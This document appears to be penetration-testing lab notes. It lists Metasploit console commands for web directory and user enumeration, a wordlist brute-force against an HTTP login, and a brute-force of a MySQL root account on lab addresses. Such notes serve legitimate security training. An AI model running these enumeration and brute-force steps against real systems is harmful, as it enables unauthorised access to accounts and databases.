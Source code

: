 ```bash
msf5> use auxiliary/scanner/http/robots_txt
```

```bash
msf5> curl http://192.227.166.3/data/
msf5> curl http://192.227.166.3/secure/

msf5> use auxiliary/scanner/http/dir_scanner
msf5> run
```

```
msf5> use auxiliary/scanner/http/files_dir
msf5> run
```

```
msf5> use auxiliary/scanner/http/apache_userdir_enum
msf5> set user_file /usr/share/metasploit-framework/data/wordlists/common_users.txt
msf5> set verbose false
msf5> run
```

The user is `rooty`.

```
msf5> use auxiliary/scanner/http/http_login
msf5> set auth_uri /secure/
msf5> unset USERPASS_FILE
msf5> set user_file /usr/share/metasploit-framework/data/wordlists/namelist.txt
msf5> set pass_file /usr/share/metasploit-framework/data/wordlists/unix_passwords.txt
msf5> set verbose false
msf5> run
```

### MySQL enumeration

* MySQL is an open-source relational database management system based on SQL (Structured Query Language).
* It is typically used to store records, customer data, and is most commonly deployed to store web application data.
* MySQL utilizes TCP port 3306 by default, however, like any service it can be hosted on any open TCP port.
* We can utilize auxiliary modules to enumerate the version of MySQL, perform brute-force attacks to identify passwords, execute SQL queries and much more.

```
root@attackdefense> system postgresql start && msfconsole

msf5> workspace -a mysql_enum
msf5> setg rhosts 192.35.65.3
msf5> search type:auxiliary name:mysql
msf5> run
```

```
msf5> use auxiliary/scanner/mysql/mysql_login
msf5> set username root
msf5> set pass_file /usr/share/metasploit-framework/data/wordlists/unix_passwords.txt
msf5> set stop_on_success true
msf5> run
```
